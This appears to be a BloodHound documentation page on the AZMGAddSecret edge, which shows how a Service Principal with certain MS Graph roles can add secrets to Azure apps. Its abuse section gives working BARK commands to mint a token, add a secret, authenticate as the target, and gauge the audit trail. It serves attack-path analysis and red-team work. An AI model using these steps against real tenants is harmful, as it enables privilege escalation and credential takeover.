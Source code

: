 ---
title: AZMGAddSecret
description: "This edge is created during post-processing."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 



 It is created against all Azure App Registrations and Service Principals when a Service Principal has one of the following MS Graph app roles:

* Application.ReadWrite.All
* RoleManagement.ReadWrite.Directory

You will not see this privilege when using just the Azure portal or any other Microsoft tooling. If you audit the roles and administrators affecting any particular Azure App or Service Principal, you will not see that the Service Principal can add secrets to the object, but it indeed can because of the parallel access management system used by MS Graph.

## Abuse Info

There are several ways to perform this abuse, depending on what sort of access you have to the credentials of the object that holds this privilege against the target object. If you have an interactive web browser session for the Azure portal, it is as simple as finding the target App in the portal and adding a new secret to the object using the “Certificates & secrets” tab. Service Principals do not have this tab in the Azure portal but you can add secrets to them with the MS Graph API. No matter what kind of control you have, you will be able to perform this abuse by using BARK’s New-EntraAppSecret or New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to add secrets to the target object. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s New-EntraAppSecret to add a new secret to the target application:

```bash
New-EntraAppSecret `
    -AppRegObjectID "d878..." `
    -Token $MGToken.access_token
```
The output will contain the plain-text secret you just created for the target app:

```bash
New-EntraAppSecret `
    -AppRegObjectID "d878..." `
    -Token $MGToken.access_token

Name                Value
----                -----
AppRegSecretValue   odg8Q~...
AppRegAppId         4d31...
AppRegObjectId      d878...
```

With this plain text secret, you can now acquire tokens as the service principal associated with the app. You can easily do this with BARK’s Get-MSGraphToken function:

```bash
$SPToken = Get-MSGraphToken `
    -ClientID "4d31..." `
    -ClientSecret "odg8Q~..." `
    -TenantName "contoso.onmicrosoft.com"
```
Now you can use this JWT to perform actions against any other MS Graph endpoint as the service principal, continuing your attack path with the privileges of that service principal.

## Opsec Considerations

When you create a new secret for an App or Service Principal, Azure creates an event called “Update application - Certificates and secrets management”. This event describes who added the secret to which application or service principal.

## References
* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
